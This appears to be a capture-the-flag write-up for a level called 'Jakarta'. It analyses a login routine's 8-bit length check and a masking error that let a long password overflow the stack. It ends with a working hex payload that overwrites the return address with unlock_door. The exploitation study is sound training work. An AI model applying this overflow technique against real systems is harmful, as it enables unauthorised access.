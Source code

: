 # Jakarta
> partial source code is [here](./dump.asm)  
> **Vulnerability**: stack buffer overflow, arithmetic overflow

## Analysis
abstract **pseudo c code** of the function `<login>`:  
(only the relevant part is shown)
```c
void login() {
    gets(0x2402, 0xff);     // get `username`
    int username_len = strlen(0x2402);
    strcpy(sp, 0x2402);
    if (username_len >= 33) {
        exit();
    }
    int max_password_len = (31 - username_len) & 0x1ff;
    gets(0x2402, max_password_len);     // get `password`
    int password_len = strlen(0x2402);
    strcpy(sp + username_len, 0x2402);
    if (username_len + password_len >= 33) {
        exit();
    }
    // @ 0x4612
    if (test_username_and_password_valid(sp)) {
        unlock_door();
        puts("Access granted.");
    } else {
        puts("The password is not correct.");
    }
}
```

### Vulnerability
1. arithmetic overflow
    - test for the total length of `username` and `password`
        ```asm
        4600:  7f90 2100      cmp.b	#0x21, r15              ; r15 = username_len + password_len
        4604:  0628           jnc	$+0xe <login+0xb2>
        ```
        The comparison only checks for the lower 8 bits of `r15` with `0x21`
        Therefore, if `username_len + password_len` is greater than `0x100` and keep the lower byte less than `0x21`, then the comparison will pass while taking in a large chunk of data on the stack.

        ***Solution Restriction 1***: $0x100 \leq username\_length + password\_length \lt 0x121$
2. Wrong arithmetic calculation
    In order for the ***Solution Restriction 1*** to work, we need either one or both of `username` and `password` to be long enough. However, the program also have some boundary check for both `username` and `password`:
    1. `username` length checks
        The program will be able to get input of length up to `0xff` bytes but it has a boundary check for `username` length that if it is greater than `0x20`, then the program will exit.

        ***Solution Restriction 2***: $username\_length \leq 0x20$
    2. `password` length restriction
        The number of bytes that can be read for `password` is calculated as follows:
        ```c
        int max_password_len = (31 - username_len) & 0x1ff;
        ```

        At first glance, due to the subtraction, it seems that the maximum length of two inputs is **31**. However, because of the `& 0x1ff`, the length for `password` is as follows:
        |         `username` length         |              `password` length               |
        | :-------------------------------: | :------------------------------------------: |
        |                 0                 |                      31                      |
        |                 1                 |                      30                      |
        |                 2                 |                      29                      |
        |                ...                |                     ...                      |
        |                30                 |                      1                       |
        |                31                 |                      0                       |
        | <span style="color:red">32</span> | <span style="color:red">0x1ff (= 511)</span> |

        That is, as long as the `username` length is exactly **32**, then the `password` length can be **511** bytes and will be able to fulfill the ***Solution Restriction 1***.

        ***Solution Restriction 3***: $username\_length == 0x20$ and $password\_length \leq 0x1ff$
3. stack buffer overflow  
   Combine all the previous vulnerabilities, the password can be extremely long and will **possibly** be able to overflow the stack.

   But how does the stack look like?
   - Stack Layout
        ```asm
        4560:  0b12           push	r11
        4558:  3150 d8ff      add	#0xffde, sp     ; sp = sp - 0x22
        ```
        From `sp` to return address of `<login>` is `0x22 + 0x2 = 0x24` bytes.

        Where is `username` and `password` stored?
        ```asm
        ; username
        45a4:  3e40 0224      mov	#0x2402, r14
        45a8:  0f41           mov	sp, r15
        45aa:  b012 f446      call	#0x46f4 <strcpy>            ; strcpy(sp, 0x2402)
        ...
        ; password
        45e2:  3e40 0224      mov	#0x2402, r14
        45e6:  0f41           mov	sp, r15                     ; r15 = sp
        45e8:  0f5b           add	r11, r15                    ; r15 = sp + strlen(username)
        45ea:  b012 f446      call	#0x46f4 <strcpy>            ; strcpy(sp + strlen(username), 0x2402)
        ```

        Therefore, `username` is at the beginning of the stack and with ***Restriction 3*** where `username_length == 0x20`, `password` will be stored at `sp + 0x20`.

        That is, the stack layout from the `password`'s point of view is as follows:
        |            |   `password`   |
        | :--------: | :------------: |
        | sp + 0x20  |   (padding)    |
        | sp + 0x22  |   (padding)    |
        | sp + 0x24  | return address |
        | sp + 0x26  |   (padding)    |
        |    ...     |      ...       |
        | sp + 0xfe  |   (padding)    |
        | sp + 0x100 |   (padding)    |

        ***Solution Restriction 4***: `password` needs padding of 4 bytes, address of `<unlock_door>`, 0x444c in little endian, and padding such that the total length of `username` and `password` is at least 0x101 and no more than 0x120 (minimun padding of 218).


## Exploit
Combine all the ***Solution Restrictions***, the following input will be able to unlock the door:
|        username         |                                             password                                             |
| :---------------------: | :----------------------------------------------------------------------------------------------: |
| (0x20 bytes of padding) | (0x4 bytes of padding) + 2 bytes of address to function `<unlock_door>` + (218 bytes of padding) |


<!-- solution: {'level_id': 11, 'input': '4141414141414141414141414141414141414141414141414141414141414141;616161614c446262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262626262;'} -->
